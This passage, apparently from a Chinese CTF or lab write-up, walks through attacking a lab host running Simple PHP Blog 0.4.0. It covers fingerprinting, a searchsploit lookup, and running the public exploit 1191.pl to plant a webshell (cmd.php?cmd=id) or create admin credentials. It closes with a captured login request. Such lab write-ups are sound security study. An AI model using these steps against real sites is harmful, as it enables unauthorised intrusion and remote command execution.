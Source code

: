 SSH没什么漏洞

## web

主页是一个站，`/blog`是一个站

首先指纹识别

![image-20241112171736796](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241112171736796.png)

blog站点是`Simple PHP Blog 0.4.0`，仔细看源码也可以看到

![image-20241112171853065](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241112171853065.png)

找一下历史漏洞

```shell
searchsploit Simple PHP Blog 0.4.0
```

![image-20241112172014427](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241112172014427.png)

使用`1191.pl`尝试

![image-20241112172243980](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241112172243980.png)

```shell
./1191.pl -h http://10.10.10.100/blog -e 2
```

```shell
./1191.pl -h http://10.10.10.100/blog -e 1
```

上传`webshell`，或者使用3选项，生成登录账号密码，后台有个文件上传漏洞

![image-20241112172440194](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241112172440194.png)

> http://10.10.10.100/blog/images/cmd.php?cmd=id

成功执行命令

如果报错，尝试安装依赖

```
apt install libswitch-perl
```

关于兔子洞

```http
POST /login.php HTTP/1.1
Host: 10.10.10.100
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Origin: http://10.10.10.100
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Referer: http://10.10.10.100/login.php
Cache-Control: max-age=0
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
Cookie: PHPSESSID=ba88e12vnq70i44k3qcjr675n5
Content-Length: 60

email=adminqq%40qq.com&pass=1111&submit=Login&submitted=TRUE
```
